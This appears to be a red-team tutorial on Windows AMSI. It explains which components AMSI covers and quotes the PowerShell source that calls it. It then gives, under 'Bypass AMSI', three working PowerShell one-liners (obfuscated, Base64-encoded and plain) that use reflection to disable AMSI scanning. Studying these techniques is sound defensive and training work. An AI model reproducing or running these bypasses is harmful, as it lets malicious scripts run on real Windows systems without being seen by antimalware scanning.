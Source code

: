 AMSI is fully integrated into the following Windows components.  

-   User Account Control, or UAC
-   PowerShell
-   Windows Script Host (wscript and cscript)
-   JavaScript and VBScript
-   Office VBA macros

AMSI is instrumented in both System.Management.Automation.dll and within the CLR itself. When inside the CLR, it is assumed that Defender is already being instrumented; this means AMSI will only be called when loaded from memory.  

We can look at what PowerShell security features physically look like and are written using InsecurePowerShell, [https://github.com/PowerShell/PowerShell/compare/master...cobbr:master](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master) maintained by Cobbr. InsecurePowerShell is a GitHub repository of PowerShell with security features removed; this means we can look through the compared commits and identify any security features. AMSI is only instrumented in twelve lines of code under 
```powershell
src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs
```

Find the C# code used to instrument AMSI below.  
```csharp
var scriptExtent = scriptBlockAst.Extent;  
if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)  
{  
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);  
  throw new ParseException(new[] { parseError });  
}  
  
if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)  
{
  HasSuspiciousContent = true;  
}
```

Third-parties can also instrument AMSI in their products using the methods outlined below.  

-   AMSI Win32 API, [https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions)
-   AMSI COM Interface, [https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream)

## Bypass AMSI
Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell.
There are a large number of bypasses for AMSI available, below are a list of few AMSI bypasses.

```powershell
# AMSI obfuscation
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
